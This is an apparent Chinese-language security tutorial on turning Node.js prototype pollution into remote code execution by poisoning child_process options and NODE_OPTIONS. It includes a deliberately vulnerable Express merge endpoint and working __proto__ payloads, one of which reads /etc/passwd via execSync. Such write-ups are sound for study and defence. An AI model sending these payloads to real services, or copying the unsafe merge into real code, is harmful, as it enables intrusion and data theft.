

# 0x00 Preface

目前遇到比较多的原型链污染都配合模板引擎去打，但如果是一个纯粹的原型链污染漏洞，如何上升到RCE呢?思路肯定是想着去污染Node自带的库或参数

# 0x01 Recall

简单回顾一下原型链污染，在JS中创建如下一个简单的对象

```js
let obj = {
    prop1: 1,
    prop2: 2
}
```

我们可以通过点访问或括号访问这个对象的属性，`obj.prop1`或`obj['prop2']`

但实际上这个对象还有很多其他属性(方法也归于属性)，如`toString`、`constructor`、`hasOwnProperty`，但这些东西我们在定义对象时都没指定，如何访问到的呢?这就是原型继承。在浏览器打印obj对象，可以看到有一个`__proto__`属性


当我们试图访问一个对象不存在的属性，JS引擎会去对象的原型中查找这个属性，直到找到这个属性或到达原型链的顶端null，

```js
obj.__proto__ === Object.prototype
// true
obj.constructor === Object
// true
```

当代码中出现有能够重写`Object.prototype`的属性的地方，就可能存在原型链污染

```js
if(user.isAdmin) {
    // do something important
}
```


除非代码中明确赋值，否则经过污染后`user.isAdmin`将永真

# 0x02 Escalate 2 RCE

由上可知，我们要污染的目标属性有两个特征：

1. 代码中没有明确给对象定义该属性（这样才会去原型链上找属性）
2. 在Node自带的敏感的模块中用到

Node中执行命令的模块是`child_process`，里面有一些和系统调用有关的方法，如`exec`就可以直接执行系统命令，`fork`、`spawn`用于创建新的NodeJS进程

`fork`中最终调用的也是`spawn`，`fork`方法中首先会获取一些选项参数


这里`execPath`和`execArgv`首先会尝试从传递进来的`options`参数获取，若获取不到则默认使用`process`中的属性

接着汇总一下args，进入`spawn`

```js
args = [...execArgv, modulePath, ...args]
return spawn(options.execPath, args, options);
```

`spawn`里有一个有趣的函数`normalizeSpawnArguments`

```js
const env = options.env || process.env;
const envPairs = [];

let envKeys = [];
// Prototype values are intentionally included.
for (const key in env) {
    ArrayPrototypePush(envKeys, key);
}

for (const key of envKeys) {
    const value = env[key];
    if (value !== undefined) {
        validateArgumentNullCheck(key, `options.env['${key}']`);
        validateArgumentNullCheck(value, `options.env['${key}']`);
        ArrayPrototypePush(envPairs, `${key}=${value}`);
    }
}
```

`options.env`默认是没有定义的，一般取到的是`process.env`

简单来说就是把原进程的环境变量的键值对放入`envPairs`，用来传给新的进程

因此这里的`options`就是一个完美的污染对象。

`process`是Node.js中的一个全局对象，它提供了有关当前Node.js进程的信息

通过`process`可以获取环境变量，`process.env.环境变量名`

而`NODE_OPTIONS`环境变量，用于设置Node.js进程的运行选项。它提供了一种在启动Node.js应用程序时传递命令行选项的方式，而不必每次手动输入这些选项。

通过设置`NODE_OPTIONS`环境变量，可以在运行Node.js应用程序时自定义一些行为，例如调整堆大小、设置调试模式、启用特定的V8引擎标志等。

`NODE_OPTIONS`的值应该是一个空格分隔的命令行选项列表。每个选项都以`--`开头，后面跟随选项的名称和值

也可以在命令行中设置`NODE_OPTIONS`

```bash
NODE_OPTIONS="<options>" node <your_script.js>
```

直接添加运行选项:

```bash
node --eval "require('child_process').exec('calc')"
```


看来node不允许在`NODE_OPTIONS`中使用`--eval`

但是查看官方文档，发现有文件包含这一选项`--require`


但这又带个一个新的问题，我需要能够上传恶意文件，再去包含这个文件。

除非目标服务器上本身就有可以利用的文件。。。

实际上是有的，那就是虚拟文件`/proc/self/environ`，里面列出了当前进程的所有环境变量。


成功执行代码。

> 插一句，可以在运行Node.js命令之前指定环境变量
>
> VARIABLE_NAME=value node your_script.js
>
> 如: `NODE_ENV=production node server.js`
>
> 在代码中可以用 `process.env.NODE_ENV` 来获取 `NODE_ENV` 环境变量的值。

下面来模拟一下这个过程

```js
const express = require('express');
const app = express();
const { fork } = require('child_process');

function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
}

app.get('/', (req, res) => {
    res.send('Hello, World!');
});

app.post('/hackk', require('body-parser').json(), (req, res) => {
    let obj = {};
    copy(obj, req.body);
    let proc = fork('calc.js', [3, 5], {
        stdio: ['ignore', 'pipe', 'pipe', 'ipc']
    });
    proc.stderr.pipe(res);
    proc.stdout.pipe(res);
    return;
});

const port = 8080;
app.listen(port, () => {
  console.log(`Server running on port ${port}`);
});

// calc.js
let argv = process.argv.slice(2);
console.log(`The result of ${argv[0]} mul ${argv[1]} is ${argv[0]*argv[1]}`);
```

```json
{"__proto__":{"env":{"aaa":"console.log('polluted 2 rce success')//","NODE_OPTIONS":"-r /proc/self/environ"}}}
```


上面的`fork`中`options`除了`env`，还有`execPath`、`execArgv`

`execPath`默认获取的是`process.execPath`，即`node`命令的位置，比如我这环境在`'/root/.nvm/nvm-0.38.0/versions/node/v18.12.0/bin/node'`

`execArgv`默认获取的是`process.execArgv`，即传给`node`命令的参数

因此这两个参数也可以污染

```json
{"__proto__":{"execPath":"/bin/ls","execArgv":["-al","/"]}}
```



此外还有其他参数可以污染，这次包含的`/proc/self/cmdline`

```json
{"__proto__":{"env":{"argv0":"console.log(require('child_process').execSync('cat /etc/passwd').toString())//","NODE_OPTIONS":"-r /proc/self/cmdline"}}}
```

除了`fork`、`spawn`，`child_process`下的其他函数也可以利用

要知道本质上`exec`、`execFile`也是开启一个新的子进程去执行

* `exec`

```js
const { exec } = require('child_process');
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 = "console.log(require('child_process').execSync('touch success').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = exec('ls');
```

* `execFile`

```js
const { execFile } = require('child_process');
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 = "console.log(require('child_process').execSync('touch success').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = execFile('/root/node/bin/node');
```

`execFile`有点不同，得确保执行的是node命令

# 0x03 Fix

貌似Node19之后不再用`options = {}`，那么`options`的原型就不是`Object`，也就污染不了了


# Ref

https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/?ref=gusralph.info